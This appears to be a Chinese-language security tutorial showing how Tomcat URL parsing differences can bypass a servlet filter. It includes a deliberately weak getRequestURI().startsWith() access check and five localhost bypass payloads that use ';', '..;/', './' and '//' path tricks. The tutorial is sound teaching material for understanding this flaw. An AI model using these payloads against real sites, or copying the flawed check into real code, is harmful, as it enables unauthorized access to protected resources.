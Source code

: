 # Tomcat URL 解析差异性攻击利用

看个访问限制绕过的场景。

假设Tomcat上启动的Web目录下存在一个info目录，其中有一个secret.jsp文件，其中包含敏感信息等：


```java
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<html>
<head>
    <title>Secret</title>
</head>
<body>
username: mi1k7ea<br>
password: 123456<br>
address: china<br>
phone: 13666666666<br>
</body>
</html>
```

新建一个filter包，其中新建一个testFilter类，实现Filter接口类：


```java
package filter;

import javax.servlet.*;
import javax.servlet.http.*;
import java.io.IOException;

public class testFilter implements Filter {
    @Override
    public void init(FilterConfig filterConfig) throws ServletException {

    }

    @Override
    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
        HttpServletRequest httpServletRequest = (HttpServletRequest)servletRequest;
        HttpServletResponse httpServletResponse = (HttpServletResponse)servletResponse;

        String url = httpServletRequest.getRequestURI();

        if (url.startsWith("/urltest/info")) {
            httpServletResponse.getWriter().write("No Permission.");
            return;
        }

        filterChain.doFilter(servletRequest, servletResponse);
    }

    @Override
    public void destroy() {

    }
}
```

这个Filter作用是：只要访问/urltest/info目录下的资源，都需要进行权限判断，否则直接放行。可以看到，这里调用getRequestURI()函数来获取请求中的URL目录路径，然后调用startsWith()函数判断是否是访问的敏感目录，若是则返回无权限的响应。当然这里写得非常简单，只做演示用。

编辑web.xml，添加testFilter设置：


```xml
<?xml version="1.0" encoding="UTF-8"?>
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
         version="4.0">
    <filter>
        <filter-name>testFilter</filter-name>
        <filter-class>filter.testFilter</filter-class>
    </filter>
    <filter-mapping>
        <filter-name>testFilter</filter-name>
        <url-pattern>/*</url-pattern>
    </filter-mapping>
</web-app>
```

运行之后，访问`http://localhost:8080/urltest/info/secret.jsp`，会显示无权限：

![](images/15893685005072.png)


根据前面的分析构造如下几个payload都能成功绕过认证限制来访问：


```bash
http://localhost:8080/urltest/./info/secret.jsp
http://localhost:8080/urltest/;mi1k7ea/info/secret.jsp
http://localhost:8080/urltest/mi1k7ea/../info/secret.jsp
http://localhost:8080/urltest/mi1k7ea/..;/info/secret.jsp
http://localhost:8080//urltest/info/secret.jsp
```

![](images/15893685151775.png)


整个的过程大致如此，就是利用解析的差异性来绕过认证